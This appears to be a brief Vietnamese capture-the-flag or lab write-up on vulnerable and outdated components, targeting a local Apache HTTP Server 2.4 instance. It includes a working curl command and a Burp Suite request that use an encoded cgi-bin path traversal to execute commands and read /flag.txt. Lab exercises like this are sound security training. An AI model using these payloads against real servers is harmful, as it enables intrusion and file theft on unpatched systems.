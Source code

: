 
# 🧨 Vulnerable and Outdated Components

---

## Cài đặt môi trường

*Note: vẫn như cài đặt ở phần 01*

```
http://127.0.0.1:6006/
```

---

## Phân tích

![ISD](images/VU1.png)
- Sử dụng Apache HTTP Server 2.4
- Có thể khai thác thông qua **Path Traversal** và **Remote Code Execution (RCE)**

---

## Khai thác

![ISD](images/VU2.png)

```bash
curl --data "echo;cat /flag.txt" 'http://localhost:6006/cgi-bin/.%2e/.%2e/.%2e/.%2e/flag.txt'
```

Hoặc dùng Burp Suite:

![ISD](images/VU3.png)
```
GET /cgi-bin/.%2e/%2e%2e/.../flag.txt HTTP/1.1
```

